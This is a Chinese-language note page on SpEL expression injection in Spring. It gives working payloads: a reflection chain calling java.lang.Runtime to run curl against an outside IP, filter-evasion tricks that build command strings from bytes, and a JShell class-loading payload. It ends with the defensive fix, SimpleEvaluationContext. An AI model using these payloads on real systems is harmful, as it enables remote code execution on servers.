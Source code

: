 

```
''['class'].forName('java.lang.Runtime').getDeclaredMethods()[15]
    .invoke(''['class'].forName('java.lang.Runtime').getDeclaredMethods()[7]
        .invoke(null),'curl 172.17.0.1:9898')
```

 除此以外当执行的系统命令被过滤或者被URL编码掉时我们可以通过`String`类动态生成字符
如要执行的命令为`open /Applications/Calculator.app`我们可以采用`new java.lang.String(new byte[]{,,...})`或者`concat(T(java.lang.Character).toString())`嵌套来绕过 

```
T(SomeWhitelistedClassNotPartOfJDK).ClassLoader.loadClass("jdk.jshell.JShell",true).Methods[6].invoke(null,{}).eval('whatever java code in one statement').toString()
```



### 一些技巧

#### new被过滤

可以用NEW



### 一些相关的ctf题目

#### de1ctf2020 cal





### SpEL提供的两个`EvaluationContext`的区别

SpEL提供的两个`EvaluationContext`的区别。
（EvaluationContext评估表达式以解析属性，方法或字段并帮助执行类型转换时使用该接口。有两个开箱即用的实现。）

- SimpleEvaluationContext - 针对不需要SpEL语言语法的全部范围并且应该受到有意限制的表达式类别，公开SpEL语言特性和配置选项的子集。
- StandardEvaluationContext - 公开全套SpEL语言功能和配置选项。您可以使用它来指定默认的根对象并配置每个可用的评估相关策略。

`SimpleEvaluationContext`旨在仅支持SpEL语言语法的一个子集。它不包括 Java类型引用，构造函数和bean引用。

所以说指定正确`EvaluationContext`，是防止SpEl表达式注入漏洞产生的首选，之前出现过相关的SpEL表达式注入漏洞，其修复方式就是使用`SimpleEvaluationContext`替代`StandardEvaluationContext`。





## 参考文章

 http://rui0.cn/archives/1043 

 http://ifeve.com/spring-6-spel/  文档
